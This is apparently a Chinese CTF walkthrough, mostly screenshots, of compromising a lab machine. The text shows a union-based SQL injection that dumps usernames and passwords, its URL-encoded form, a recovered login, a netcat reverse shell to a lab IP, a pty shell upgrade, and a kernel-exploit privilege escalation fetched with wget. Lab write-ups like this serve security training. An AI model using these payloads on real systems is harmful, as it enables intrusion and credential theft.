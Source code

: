 ![](https://mmbiz.qpic.cn/mmbiz_png/v6ap3LYR6wic2jrLxgjNpgsIJsic7f11HfXwAezRktOGDc7Kx8fF5OMAfZQ2XzUN8Nu8XcnuS6lm7Es3J96LBMkQ/640?wx_fmt=png)

1' union select (select group_concat(0x3e,username,0x3e,password) from users),2#

1%2527%2520union%2520select%2520%2528select%2520group_concat%25280x3e%252Cusername%252C0x3e%252Cpassword%2529%2520from%2520users%2529%252C2%2523

![](https://mmbiz.qpic.cn/mmbiz_png/v6ap3LYR6wic2jrLxgjNpgsIJsic7f11Hfe0jXehxVVP4icBEsJZgPjNc9Jx38OTd8ib1XliaVEhfpFqwpQ2kV5cuqw/640?wx_fmt=png)

拿到账号：andrea SayNoToPentests  

![](https://mmbiz.qpic.cn/mmbiz_png/v6ap3LYR6wic2jrLxgjNpgsIJsic7f11Hf4sspJ4GfKx4hofgJqPpRiaCZEZHeEs7uoQQeLGhABBl1KrbsUhSDjvg/640?wx_fmt=png)

无法执行命令，反弹一个 shell

nc -e/bin/bash 192.168.246.158 4444

本地 nc -lvvp 4444  监听

获取交互式 shell

python -c'import pty; pty.spawn("/bin/bash")'

尝试内核版本提权

![](https://mmbiz.qpic.cn/mmbiz_png/v6ap3LYR6wic2jrLxgjNpgsIJsic7f11HfPtWypanJR5EiaNdAHumUtxZrdeIvT5OOiad1o5L0j8eqsE9O0hWE2nuQ/640?wx_fmt=png)

搜索版本号 查找漏洞

![](https://mmbiz.qpic.cn/mmbiz_png/v6ap3LYR6wic2jrLxgjNpgsIJsic7f11HfWxgB1XSfpkLZscDjibzS7hlpPlzHnanfORlnwYj11lBTVO1Csn2iaFOg/640?wx_fmt=png)

把脚本 cp 到 web 目录

![](https://mmbiz.qpic.cn/mmbiz_png/v6ap3LYR6wic2jrLxgjNpgsIJsic7f11HfqBJKpzQs7xicIQgPDdtiaCYwsBiczlTY5hgbF23a1WsssHQicuGKWmiaCxw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/v6ap3LYR6wic2jrLxgjNpgsIJsic7f11HfDpgY7HywqMyOLXEicNibOrWZyiaLoI0R4gmibUAPtic0TfcwVgribq07Y9AQ/640?wx_fmt=png)

开启 apache2  

![](https://mmbiz.qpic.cn/mmbiz_png/v6ap3LYR6wic2jrLxgjNpgsIJsic7f11Hfk75fTJ6WEAJ1iaTwAtvR5J4jZlLsZjKeXib7GgJA7icbfvWtibZTohI1Mg/640?wx_fmt=png)

Wget 下载  

![](https://mmbiz.qpic.cn/mmbiz_png/v6ap3LYR6wic2jrLxgjNpgsIJsic7f11Hf4Zn7BqTN55plh7DSU5hcgReA7acU3CIAeGIlOlqX8yfsmasIM1IZCg/640?wx_fmt=png)

编译并执行

![](https://mmbiz.qpic.cn/mmbiz_png/v6ap3LYR6wic2jrLxgjNpgsIJsic7f11Hfx8UppOHfmlLXSAGLJtaFT4XOza13lOCKeoBjUM2SbfgH3mUmc0Tb5Q/640?wx_fmt=png)

Flag 在根目录下